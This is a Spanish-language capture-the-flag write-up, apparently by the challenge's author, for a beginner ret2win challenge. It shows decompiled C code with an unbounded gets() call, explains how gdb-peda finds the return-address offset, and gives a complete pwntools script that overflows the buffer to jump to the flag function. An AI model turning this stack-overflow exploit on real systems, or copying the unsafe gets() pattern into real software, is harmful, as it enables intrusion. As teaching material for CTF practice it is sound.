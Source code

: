 ```yaml
---
layout: post
title: Wordle 2025
comments: true
categories: [Pwn, Writeups, BITSCTF2025]
---
```


Aquí traigo el segundo reto que implementé para la categoría de Pwn. Como dije se trata de un ejercicio bastante simple pensado para aquellos que se enfrentan por primera vez a esta categoría.

# Overview

Este es un reto clásico de *ret2win*, en el que debemos llamar a una función que imprimirá la flag.

# Reconocimiento

Aunque no es necesario, si descompilamos veremos las siguientes funciones:

```c
void flag() {
    printf("Ejecutame si puedes :)\n");
    exit(0);
}

int main() {
    banner();

    char comment[50];
    printf("Deja una reseña sobre nuestro CTF: ");
    gets(comment);
    printf("Gracias! Esperamos que lo hayas disfrutado.\n");
    printf("\n(Te crees que te voy a dar una flag solo por quejarte?)\n\n");

    return 0;
}
```

Vemos que la función flag nunca es llamada. Sin embargo, disponemos de una llamada a *gets* en main, con lo que podemos desbordar el rsp e insertar la dirección de flag en la dirección de retorno, para que al terminar de ejecutar main, saltemos a flag.

Para ello debemos encontrar el offset hasta dicha dirección de retorno. Podemos hacerlo con gdb-peda, generando un patrón con `pattern create 200`, pasándoselo al programa y viendo el valor de rsp. Con `pattern offset <rsp>` tendremos el offset.

# Explotación

Para resolverlo debemos explotar el buffer overflow en el servidor, para ello utilizaremos este script:

```python
#!/bin/python3

from pwn import *

binary = '../gen/feedback'
elf = ELF(binary)

if args.LOCAL: 
    p = process(binary)

elif args.REMOTE:
    p = remote('ctf.hackademics-forum.com', 41422)
    #p = remote("ctf.hackademics-forum.com", 41422)

offset = 72
padding = b'a' * offset
flag=p64(0x40145f) # type: ignore

payload = padding + flag

log.info("Enviando exploit...")

p.sendline(payload)

p.interactive()
```